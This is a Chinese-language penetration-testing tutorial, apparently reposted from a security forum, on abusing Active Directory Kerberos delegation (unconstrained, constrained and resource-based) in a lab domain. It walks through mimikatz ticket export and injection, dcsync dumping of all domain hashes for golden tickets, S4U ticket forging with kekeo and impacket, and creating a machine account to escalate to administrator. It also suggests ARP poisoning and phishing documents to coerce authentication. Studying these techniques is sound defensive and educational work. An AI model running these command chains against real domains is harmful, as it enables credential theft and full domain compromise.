域委派
https://xz.aliyun.com/t/11487?accounttraceid=29188d5a948e41968d315b431a7b22fehxej#toc-8
1.域委派简介
1.1.是什么
域委派是指将域内用户的权限委派给具有委派属性的服务账户，使得服务账号能够以用户的权限在域内展开活动。

1.1.1.简单栗子
A成功运行需要B支持，但是A本身权限不足以访问B，则需要用域委派。
域内的文件服务器，要实现不同权限的用户访问不同的目录，需要委派。如果没有域委派，那么所有人成功通过IIS认证后，存在的权限都只是IIS的权限，当访问文件服务器的时候，文件服务器都只认为是IIS服务在访问它，无法做到详细划分权限的功能。
因此委派就是解决这个问题的，通过设置委派属性，可以让IIS模拟用户，验证并访问后端的其他服务器以获取相应的资源。
1.2.委派对象
在域中，只有 服务账号 和 主机账号 才具有委派属性。
主机账号就是AD活动目录中 Computers 中的计算机，也可以称为机器账号，一个普通域用户默认最多可以创建十个主机账号。
服务账号（Service Account）是域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来并加入域。例如SQL Server 在安装时，会在域内自动注册服务账号 SQLServiceAccount。也可以将域用户通过注册SPN变为服务账号。
1.3.设置方式
1.3.1.机器用户设置委派
直接使用AD目录管理器操作。

可通过powerview.ps1查看当前账户的userAccountControl包含字段TRUSTED_FOR_DELEGATION字段判断

1.3.2.服务账号设置委派（域用户注册SPN设置委派）
setspn -s testSPN/777.ruyue.com momo
后面就可以在这个域账号上设置委派属性了。

2.无约束委派
非约束性委派其实就是权限最大的一种委派方式，即完全的获取到你这个用户的权限。
对于非约束性委派，服务账号可以获取被委派用户的TGT，并将TGT缓存到LSASS进程中，从而服务账号可使用该TGT，模拟用户访问任意服务。
2.1.工作流程
当域用户要访问服务A时，做以下步骤：
1、域用户向KDC认证身份
2、KDC通过认证在发放ST前，会检查服务A的委派属性，如果是非约束性委派，就会把用户的TGT放在ST票据中并一起返还给用户
3、用户会拿着这个带着TGT的ST去访问服务A。服务A就成功获取了用户的TGT，相当于拿到了用户的所有权限。

2.2.利用条件
1.非约束性委派的目标的ACL属性的userAccountControl字段为TRUSTED_FOR_DELEGATION。
2.委派的设置需要SeEnableDelegation特权，通常仅域管理员有。
3.域控主机默认是非约束性委派。
2.3.利用
2.3.1.基本利用
2.3.1.1.原理
由2.1可知，服务A直接拿到用户的TGT并缓存在内存中即可。只需要拿下一台设置了非约束性委派的机器后，诱导域管访问这台机子，这样，就能够获取到域管的TGT即金票了。
2.3.1.2.流程
- 寻找配置了非约束性委派的服务或主机账号
- 诱导其他账号访问配置了非约束性委派的服务或主机。
- 导出票据，进行票据注入。
2.3.1.3.过程
1、首先是获取存在非约束性委派的机器账号。
1 | Get-Netcomputer -Unconstrained | select name |

2、使用域控去访问目标主机：

此时exchange这台机子内存就已经存在了域控的TGT。这里我们用mimikatz（管理员??？）把内存中的票据给导出来。
1 | privilege::debug |

3、用ptt将票据注入到当前会话后，用dcsync导出域控中所有用户的hash，最后就可以用krbtgt用户的hash去生成黄金票据了。
1 | kerberos::ptt [0;181868]-2-0-60a10000-Administrator@krbtgt-RUYUE.COM.kirbi //导入票据 |

4、导出所有hash，保证可以随时做金票。
1 | lsadump::dcsync /domain:ruyue.com /all /csv |

2.3.2.spooler打印机BUG+非约束性委派
2.3.2.1.原理
2.3.2.2.流程
2.3.2.3.过程
2.4.如何让域管主动和我们进行认证？
从上面的流程我们不难看出，最难的部分其实就是怎么让域控和我们进行NTLM身份认证。
而这里我们有以下几种方法：
①说服受害者用户或机子向我们的非约束性委派服务器进行身份验证。这里可以辅佐一些网络协议的攻击。
比如比较常见的链路层地址解析协议 (ARP)，通过 ARP 中毒来说服目标受害者认为恶意服务器实际上是文件服务器、域控制器或网络中已经存在的任何合法服务器。从而导致它与我们的服务器进行NTLM认证。
②钓鱼，利用特殊的网络协议如 SMB、HTTP、RDP、LDAP 等，通过精心设计PDF 、 Microsoft Word 和 Microsoft Access等文件，以在打开时引发 NTLM 身份验证请求。
https://blog.csdn.net/wxh0000mm/article/details/105997105
3.约束委派
3.1.原理
由于非约束委派的不安全性，微软在windows server2003中引入了约束委派，对Kerberos协议进行了拓展，引入了S4U。其中S4U支持两个子协议：
- Service for User to Proxy(S4U2proxy)约束委派
- Service for User to Self(S4U2self)协议转换
S4U2proxy(约束委派)
当用户去带着ST1去访问服务A的时候，服务A如果需要访问服务B，就会使用S4U2Proxy协议将用户发送来的ST1转发给TGS并请求一个ST2。此时TGS会检查服务A的委派属性，如果服务A能够委派给服务B，那么就会返回ST2给服务A，此后服务A会拿着ST2以momo的身份去访问服务B。
其实约束委派就是限制了S4U2proxy扩展的范围。配置它后，约束委派将限制服务A能委派的服务范围。而且用的是ST，不至于像TGT那样权限那么大。

‘
S4U2self(协议转换)
上图中用户是通过Kerberos协议与服务A进行认证的，而当用户以其他方式(如NTLM认证，基于表单的认证等方式)与Web服务器进行认证后，用户是无法向Web服务器提供请求该服务的服务票据ST1的，因而服务器A也无法进一步使用S4U2Proxy协议请求访问服务B。
S4U2Self协议便是解决该问题的方案，被设置为约束性委派的服务能够调用S4U2Self向TGS为任意用户请求访问自身的可转发的服务票据，此后，便可通过S4U2Proxy使用这张TGS向域控制器请求访问B的票据。
PS:其实就是如果用户momo通过其他认证渠道过了服务器A的认证，那么服务器A就会通过S4U2Self协议让TGS生成一个momo访问它的ST（ST生成只需要服务账号密码的HASH），即前面的ST1。然后后面的流程都一样了。（常规的kerberos认证是用户需要向TGS证明自己的身份，而这里就是用户直接向服务A去证明自己的身份，不用管kerberos认不认，只要服务A认了就行）

3.2.利用
首先我们给momo设置上约束委派权限（这里已经让momo注册了SPN，前面提过了），并且设置了momo这个服务账号对w2008这台机子的cifs服务的委派（cifs其实就是文件共享访问协议之类的）
接着，我们就要尝试通过约束委派从momo这个账号的权限得到w2008的权限了。

1、寻找域内的约束性委派服务账号，发现momo这个账号能委派w2008.ruyue.com的cifs服务。
1 | Get-DomainUser -TrustedToAuth -Properties distinguishedname,useraccountcontrol,msds-allowedto delegateto| fl |

2、在想办法搞到momo这个账号的权限后，我们就可以先导出momo账号的TGT，
1 | sekurlsa::tickets /export |

3、利用kekeo工具去使用S4U协议来伪造一个administartor请求服务B的ST2。
1 | tgs::s4u /tgt:[0;e6edd]-2-1-40e10000-momo@krbtgt-RUYUE.COM.kirbi /user:Administrator@ruyue.com /service:cifs/w2008.ruyue.com |
PS：如果有momo这个服务账号的明文密码或者hash也是可以的，不是非要去读票据。
最终在当前目录下得到两个票据文件，比较长那个就是用于访问服务B的ST2

4、把ST2导入当前会话，就能够成功以Administrator的权限访问服务B了。
1 | kerberos::ptt TGS_Administrator@ruyue.com@RUYUE.COM_cifs~w2008.ruyue.com@RUYUE.COM.kirbi |

4.资源委派
4.1.原理
基于资源的约束委派(RBCD)是在Windows Server 2012中新加入的功能。传统的约束委派是“正向的”，通过修改服务A属性”msDS-AllowedToDelegateTo”，添加服务B的SPN（Service Principle Name），设置约束委派对象（服务B），服务A便可以模拟用户向域控制器请求访问服务B以获得服务票据（TGS）来使用服务B的资源。
而基于资源的约束委派则是相反的，通过修改服务B属性”msDS-AllowedToActOnBehalfOfOtherIdentity”，添加服务A的SPN，达到让服务A模拟用户访问B资源的目的。
从这里我们可以知道资源的约束委派并不能危害其他机子，只能对自己进行攻击，也就是说提权操作。（因为能够模拟其他用户的权限访问自己）
4.2.条件
- ① 谁可以修改机器B的msDS-AllowedToActOnBehalfOfOtherIdentity属性。
- ② 机子B具有一个SPN账号（因为S4U2Self只适用于具有SPN的账户）
我们比较关注第一个前提，谁能修改机子B的msDS-AllowedToActOnBehalfOfOtherIdentity属性，
我们可以得知有两个用户有权限添加这个属性：①带着这台机子进入域的时候的域用户②该机子本身的机器账户。
接着我们继续看第二个前提，具有一个SPN账号，我们知道注册SPN账号是需要域管权限的，显然一个普通域用户是没有权限去注册SPN的。
而恰好的是在域中有一个属性MachineAccountQuota，这个值表示的是允许用户在域中创建的计算机帐户数，默认为10，这意味着我们如果拥有一个普通的域用户那么我们就可以利用这个用户最多可以创建十个新的计算机帐户，而计算机账户默认是注册RestrictedKrbHost/domain和HOST/domain这两个SPN的，所以这里正好能够实现前提二。
因此带它进入域的域用户可以去创建一个新的机器账户来达到获取SPN的目的。
4.3.利用场景
- 提权：模拟其他用户访问自身，通过高权限利用mimikatz抓取本地密码。
- 一个公司可能会有一个专门用来加域的账号，虽然这个账户通常只有普通域用户权限，但是如果我们控制了这个账户那么就可以打下一大批机器。
- 如果我们想拿域内机器A的权限，如果我们又没有机器A administrators组成员凭据的话还可以看机器A是通过哪个用户加入域的，控制了这个用户依然可以获取权限。
- 一个域用户X 可能会在域中创建多台机器(比如笔记本和台式机都需要加入域)，当我们有了域用户X的权限时，可以利用rbcd继续攻击其他mS-DS-CreatorSID是域用户X的机器
- 权限维持：①配置evil到krbtgt基于资源的约束委派②配置evil到域控基于资源的约束委派。
4.4.利用
4.4.1.搞清带入域者
资源的约束委派不再需要域管理员权限去设置委派，只需拥有在计算机对象上编辑msDS-AllowedToActOnBehalfOfOtherIdentity属性的权限，也就是说：带它进入域的域用户或者机器账号的权限。所以我们第一步是先搞清楚是当前或者目标主机是被谁带入域的
可使用工具ADfind或者PowerView来获取。
如下图，就只有TEST11是有这个属性的。也就是说TEST11这台主机是被S-1-5….这个SID对应的用户给带进域的。
1 | AdFind.exe -h 192.168.152.128 -b "DC=ruyue,DC=com" -f "objectClass=computer" mS-DS-CreatorSID |

接着查看当前用户的，简单对比下，就可以知道momo这个账号有权限去修改TEST11的msDS-AllowedToActOnBehalfOfOtherIdentity属性，也就是说利用momo这个账号可以在TEST11这台机子拿到最高权限。
1 | Get-DomainUser -Identity momo -Properties objectsid # 查询 |

4.4.2.提权利用
如果我们没有一个普通域账号，要想利用的话，就需要有机器账号，但一般情况下是没办法拿到机器账号的，但是所有低权限服务(例如network service这类型的本机服务)如果可以请求域资源，那么出网都是以机器账户身份去请求的。所以我们就可以利用这个权限去进行资源委派的利用，模拟一个administrator访问自身，获取高权限。
如果我们有一个普通域账号（有权限修改msDS-AllowedToActOnBehalfOfOtherIdentity 属性），我们就可以利用这个账号去创建一个机器账号，再利用机器账号做资源委派利用，获取权限。
攻击流程：
- 利用域账号创建一个机器账号
- 修改服务A的msDS-AllowedToActOnBehalfOfOtherIdentity ,配置好机器账号到服务的基于资源的约束委派。（服务A信任机器账号的委派）
- 使用机器账号利用S4U2SELF 协议获得ST，再通过S4U2PROXY获得访问A cifs服务的ST2。（和约束委派差不多的流程）
- 用ST2访问服务A的CIFS服务，获得权限。
4.4.2.1.不利于EXP
4.4.2.1.1.创建机器账号
首先我们在前面信息收集的时候得知了momo这个账号是能修改test11这台机子的msDS-AllowedToActOnBehalfOfOtherIdentity属性的。因此这里我们就利用momo这个域账号去先创建一个机器账号。
使用 Powermad中的 New-MachineAccount 来创建机器账户，如图成功创建一个名为momomachine，密码为777777的机器账号。
https://github.com/Kevin-Robertson/Powermad
1 | New-MachineAccount -MachineAccount momomachine -Password $(ConvertTo-SecureString "777777" -AsPlainText -Force) |

4.4.2.1.2.设置资源委派
前面我们创建了机器账号，也就是说成功注册了SPN，接着就可以设置momomachine到test11这台机子的委派了。
这里还是使用powerview去操作。
1 | Get-Netcomputer momomachine | select objectsid #获取机器账号的sid |

查看资源委派添加成功与否：
1 | Get-DomainComputer test11 -Properties msds-allowedtoactonbehalfofotheridentity |

4.4.2.1.3.利用资源委派进行提权
和约束委派差不多。因为当前机子test11信任了momomachine这个SPN的委派，所以我们就需要先获取这个SPN的ST票据，可是这里我们没导出内存的权限，但别忘记了我们已经有密码了，没必要导出内存，直接用密码向KDC申请ST1，并用这个ST1通过S4U协议来伪造一个administartor请求机器test11的ST2，从而实现提权就完事了。
PS:这里我还是不用rebeus来搞，毕竟这玩意需要目标机子有.NET环境。
这里我们使用impacket
1 | python3 getST.py -dc-ip 192.168.152.128 ruyue.com/momomachine\$:777777 -spn cifs/test11.ruyue.com -impersonate administrator |
